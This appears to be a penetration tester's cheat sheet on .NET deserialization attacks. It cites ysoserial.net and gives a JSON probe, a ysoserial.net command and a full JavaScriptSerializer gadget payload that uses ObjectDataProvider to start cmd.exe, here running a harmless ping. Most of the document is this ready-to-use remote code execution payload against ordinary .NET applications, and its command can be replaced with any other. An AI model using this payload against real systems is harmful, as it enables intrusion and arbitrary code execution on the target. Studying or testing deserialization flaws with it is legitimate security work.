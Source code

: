 Deserialization: .NET

# Deserialization: .NET

From:
- https://speakerdeck.com/pwntester/attacking-net-serialization
- https://github.com/pwntester/ysoserial.net

.NET Deserilization vulnerabilities can occur in
- Raw Binary
- XML
- JSON
- JavaScript
- SOAP

### JavaScript Deserializer

To test, send a JSON payload of
```
{"__type":""}

```
That should cause an error

Payload generated with ysoserial.net
```
.\ysoserial.exe -o raw -g ObjectDataProvider -f JavaScriptSerializer -c "ping 127.0.0.1"
	{
	    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
	    'MethodName':'Start',
	    'ObjectInstance':{
	        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
	        'StartInfo': {
	            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
	            'FileName':'cmd',
	            'Arguments':'/c ping 127.0.0.1'
	        }
	    }
	}
```